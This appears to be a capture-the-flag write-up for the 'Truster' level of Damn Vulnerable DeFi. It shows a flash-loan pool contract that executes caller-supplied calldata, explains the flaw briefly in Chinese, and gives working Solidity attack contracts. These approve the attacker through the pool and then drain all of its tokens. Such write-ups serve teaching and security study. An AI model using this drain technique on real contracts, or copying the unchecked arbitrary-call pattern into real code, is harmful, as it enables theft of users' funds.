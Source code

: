 ```yaml
---
title: Truster
---
```


# Description
More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

# Code
```solidity
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    IERC20 public immutable damnValuableToken;

    error NotEnoughTokensInPool();
    error FlashLoanHasNotBeenPaidBack();

    constructor(address tokenAddress) {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(uint256 borrowAmount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        if (balanceBefore < borrowAmount) revert NotEnoughTokensInPool();

        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        if (balanceAfter < balanceBefore) revert FlashLoanHasNotBeenPaidBack();
    }
}
```

# Solutions
`Lending Pool` 没有继承 `ERCIERC3156FlashLender` ，而是通过了`functionCall`和传入的`target`自己完成了回调功能，传入的`data`可控，我们就可以伪造一个`ERC20.approve()`来使供给合约可以操控`Pool`中的`Tokens`
# Exp
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../../src/truster/TrusterLenderPool.sol";
import "../../src/DamnValuableToken.sol";

contract TmpAttacker {
    uint256 internal constant TOKENS_IN_POOL = 1_000_000e18;
    address player;
    address pool;
    DamnValuableToken token;
    constructor(address _player,address _token, address _pool){
        player = _player;
        pool = _pool;
        token = DamnValuableToken(_token);
    }

    function withdraw() external{
        token.transferFrom(pool, player, TOKENS_IN_POOL);
    }
}

contract Attacker {
    uint256 internal constant TOKENS_IN_POOL = 1_000_000e18;

    constructor(address  _pool, address  _token){
        TmpAttacker attacker  = new TmpAttacker(msg.sender, _token,_pool);

        TrusterLenderPool pool = TrusterLenderPool(_pool);
        
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            attacker,
            TOKENS_IN_POOL
        );
        pool.flashLoan(0, address(attacker), _token, data);
        attacker.withdraw();
    }
}

```